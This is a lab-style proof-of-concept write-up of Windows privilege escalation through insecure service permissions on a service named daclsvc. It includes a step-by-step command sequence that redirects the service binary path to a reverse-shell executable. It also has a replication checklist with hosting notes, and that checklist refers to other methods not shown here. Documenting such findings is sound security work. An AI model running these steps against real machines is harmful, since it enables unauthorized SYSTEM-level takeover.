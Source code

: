 # Proof of Concept: Privilege Escalation via Insecure Service Permissions

### Vulnerability Overview

**Insecure Service Permissions** is a Windows privilege escalation vulnerability where a service's permissions allow a low-privileged user to modify its configuration (e.g., binary path) via the Service Control Manager (SCM). Since Windows services often run with `SYSTEM` privileges, an attacker can manipulate the service's configuration—such as changing the executable path—to execute a malicious binary, thereby gaining elevated access to the system.

---

### Proof of Concept (PoC)

This PoC demonstrates how a low-privileged user can exploit the "Insecure Service Permissions" vulnerability to escalate privileges on a Windows machine. The test was conducted as a white box assessment, with prior knowledge of login credentials and the affected service (`daclsvc`). The process involves gaining initial access, identifying the vulnerable service, modifying its binary path to point to a malicious executable, and starting the service to gain an elevated shell.

#### Initial Access
- Logged into the target Windows machine using credentials for the user account `user`.  
- Established a reverse shell to connect to the attacker machine for command execution.  
  - **Screenshot**: Initial Access via Reverse Shell  
    ![Initial Access](https://github.com/user-attachments/assets/6705201c-abfd-4448-ba41-52b7822884fa)

#### Step 1: Query the Service Configuration
- Queried the service `daclsvc` to verify its privilege level using the following command:  
  ```bash
  sc qc daclsvc
  ```
- **Result**: The service runs with `SYSTEM` privileges (`SERVICE_START_NAME: LocalSystem`), and its binary path is `BINARY_PATH_NAME: "C:\Program Files\DACL Service\daclservice.exe"`.  
  - **Screenshot**: Service Configuration  
    ![Service Details](https://github.com/user-attachments/assets/15578eb3-d703-4a3b-8338-0e9aa873261d)

#### Step 2: Check User Permissions on the Service
- Used `accesschk.exe` from Sysinternals to analyze the permissions of the user account `user` on the service `daclsvc`:  
  ```bash
  C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc
  ```
  - **Command Breakdown**:  
    - `/accepteula`: Auto-accepts the EULA.  
    - `-u`: Checks user-level access.  
    - `-w`: Checks for write permissions.  
    - `-c`: Targets a specific service.  
    - `-q`: Quiet mode, suppresses banners.  
    - `-v`: Verbose output for detailed permissions.  
    - `user`: The user account being checked.  
    - `daclsvc`: The target service.  

- **Result**: The user account `user` has permissions including `SERVICE_CHANGE_CONFIG`, allowing modification of the service's configuration (e.g., binary path, display name, start type).  
  - **Screenshot**: Permission Results  
    ![Permission Results](https://github.com/user-attachments/assets/7f66ca50-bb75-4957-ad89-f05ad46e6320)

#### Step 3: Exploit the Vulnerability
- **Objective**: Modify the service's binary path to point to a malicious executable (`esc.exe`) with reverse shell capabilities.  
- Changed the binary path of the `daclsvc` service using the following command:  
  ```bash
  sc config daclsvc binpath= "\"C:\users\user\esc.exe\""
  ```
  - **Note**: The binary path was updated to execute `esc.exe`, a malicious file that establishes a reverse shell when the service starts.  
  - **Screenshot**: Binary Path Modification Success  
    ![Binary Path Modified](https://github.com/user-attachments/assets/a709d56f-61e2-4b89-b67a-7c39ba2b3b6a)

#### Step 4: Trigger the Malicious File and Gain Elevated Shell
- Set up a listener on the attacker machine to capture the reverse shell connection (command not shown but implied from prior setup).  
- Started the service to execute the malicious binary:  
  ```bash
  net start daclsvc
  ```
- **Result**: The service executed `esc.exe`, establishing a reverse shell with `SYSTEM` privileges on the attacker machine.  
  - **Screenshot**: Elevated Shell via Reverse Shell  
    ![Elevated Shell](https://github.com/user-attachments/assets/c58ea347-7bd3-450e-8bf6-e30a70964771)


---

### Summary of Findings

- The `daclsvc` service had insecure permissions, allowing the low-privileged user `user` to modify its configuration (`SERVICE_CHANGE_CONFIG`).  
- By changing the service's binary path to a malicious executable (`esc.exe`), the user successfully escalated privileges to `SYSTEM` level upon starting the service.  
- The exploit demonstrates the potential for attackers to gain full control of the system by leveraging misconfigured service permissions.

---










Below is a concise summary of the steps taken across all Proof of Concept (PoC) reports for the vulnerabilities ("Insecure Service Executables," "Insecure Autoruns," and "Insecure Service Permissions"). The steps are presented as a checklist that can be used to replicate the privilege escalation attacks on a Windows machine. The checklist is streamlined for clarity and focuses on the key actions required for each method.

---

## Checklist: Replicating this Attack on a Windows Machine
**Target**: Exploit weak service permissions (`daclsvc`) to modify its binary path and execute a malicious binary.

- [ ] Establish a reverse shell to the attacker machine (listener already set up).
- [ ] Query the service to confirm it runs with SYSTEM privileges:  
  `sc qc daclsvc`
- [ ] Check the user’s permissions on the service using `accesschk`:  
  `C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc`
- [ ] Modify the service’s binary path to point to the malicious file `esc.exe`:  
  `sc config daclsvc binpath= "\"C:\users\user\esc.exe\""`
- [ ] Start the service to execute the malicious binary and gain a reverse shell:  
  `net start daclsvc`
- [ ] (Alternative) Modify the binary path to point to `malicious.exe` (e.g., to add the user to the admin group):  
  `sc config daclsvc binpath= "C:\Users\user\malicious.exe"`  
  Then start the service: `net start daclsvc`

---

### Notes
- Ensure the malicious files (`esc.exe`, `x.exe`, `malicious.exe`) are hosted on an accessible server (e.g., `http://10.4.106.235/`).
- Verify the listener port (e.g., `2294`) matches the configuration of the malicious binary.
- The `accesschk.exe` tool must be available on the target system (e.g., at `C:\PrivEsc\accesschk.exe`).
- Admin login (for Method 2) or service restart (for Methods 1 and 3) is required to trigger the exploit.












### Conclusion

This PoC confirms that the "Insecure Service Permissions" vulnerability in the `daclsvc` service allows a low-privileged user to escalate privileges to `SYSTEM` level. By exploiting the `SERVICE_CHANGE_CONFIG` permission, an attacker can modify the service's binary path to execute arbitrary code with elevated privileges, posing a significant risk to system security. Immediate remediation is recommended, such as restricting service permissions to prevent unauthorized configuration changes and ensuring services run with the least privilege necessary.

